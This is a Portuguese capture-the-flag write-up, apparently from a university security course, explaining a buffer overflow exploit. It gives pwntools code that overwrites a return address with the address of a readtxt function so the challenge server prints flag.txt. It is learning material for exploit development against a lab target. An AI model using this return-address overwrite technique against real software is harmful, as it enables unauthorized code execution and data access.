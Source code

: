 # Buffer Overflow

O código fornecido explora a vulnerabilidade manipulando o fluxo de execução do programa, redirecionando-o para abrir e ler o arquivo flag.txt.

## Etapas da Exploração

Estabelecimento da Conexão: O código configura uma conexão com o binário, localmente ou remotamente:

    r = remote('ctf-fsi.fe.up.pt', 4000)  # Para servidor remoto

### Identificação do Offset:

 O offset do buffer overflow foi identificado como 27 bytes.


### Localização da Função readtxt:

O endereço da função readtxt foi identificado como 0x080497a5. Esse endereço foi encontrado utilizando ferramentas objdump:

    objdump -d program | grep readtxt

![image](/screenshots/CTF5_2.png)

### Construção do Payload:

O payload é composto por:
- O argumento da função (flag) armazenado no início do buffer.
- Padding para preencher até o offset (27 bytes).
- O endereço da função readtxt sobrescrevendo o endereço de retorno.
- O argumento (flag) repetido, necessário para ser lido corretamente pela função.

O payload final é construído no código da seguinte forma:

    offset = 27  # Offset do buffer overflow
    padding = b"A" * offset
    readtxt_address = 0x080497a5  # Endereço da função readtxt
    argument = b"flag\0"

    payload = b"flag\0" + padding
    payload += p32(readtxt_address)
    payload += b"flag"

### Execução do Ataque:

O payload é enviado após a mensagem inicial do programa:

    r.recvuntil(b"flag:\n")  # Aguarda o prompt do programa
    r.sendline(payload)      # Envia o payload

O programa é explorado para abrir e ler o conteúdo de flag.txt, retornando o resultado ao atacante:

    buf = r.recv().decode()  # Recebe e decodifica a flag
    print(buf)

![image](/screenshots/CTF5_2.png)